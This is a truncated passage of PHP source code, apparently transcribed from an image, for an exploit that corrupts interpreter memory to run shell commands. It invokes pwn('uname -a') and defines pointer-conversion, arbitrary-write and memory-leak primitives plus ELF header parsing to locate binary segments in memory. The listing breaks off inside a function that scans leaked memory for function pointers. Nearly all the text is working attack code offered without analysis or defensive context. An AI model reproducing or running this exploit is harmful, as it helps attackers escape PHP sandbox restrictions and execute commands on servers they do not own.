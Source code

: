 ```py
}
pwn("uname -a");
function pwn($cmd) {
    global $abc, $helper;
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
        if(!$data_addr || !$text_size || !$data_size)
            return false;
        return [$data_addr, $text_size, $data_size];
    }
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
```